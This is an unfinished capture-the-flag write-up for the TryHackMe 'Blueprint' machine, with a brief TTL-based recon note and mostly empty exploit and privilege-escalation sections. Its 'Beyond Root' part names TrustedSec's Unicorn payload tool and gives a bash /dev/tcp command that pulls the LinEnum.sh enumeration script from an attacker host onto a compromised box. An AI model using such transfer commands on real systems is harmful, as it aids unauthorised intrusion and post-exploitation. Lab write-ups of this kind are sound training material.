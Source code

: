 # Blueprint Writeup

Name: Blueprint
Date:  
Difficulty:  Easy
Goals:  
- Got root.txt at some point cannot remember this box, but I did not get user.txt
Learnt:
Beyond Root:
- TrustedSec's Unicorn 
- msDOS-file-transfer-dreams 

## Recon

The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](TryHackMe/Markdown/Blueprint/Screenshots/ping.png)

guestusersmbaccess.png

## Exploit

## Foothold

## PrivEsc

## Beyond Root - Unicorn and msDOS-file-transfer-dreams 

TrustedSec's Unicorn - https://github.com/trustedsec/unicorn

Powershell or msDOS `echo` version of Ippsec's `cat` file tranfer for windows! Wow what a file transfer, I have not seen this on any OSCP cheatsheets! - findstr would be obvious choice but I really want and echo version.
```bash
bash -c "cat < /dev/tcp/$IP/$PORT > /tmp/LinEnum.sh"
```

Yes I know of the vbget line-by-line, but I really just want a hacky version of the above. 
```powershell
```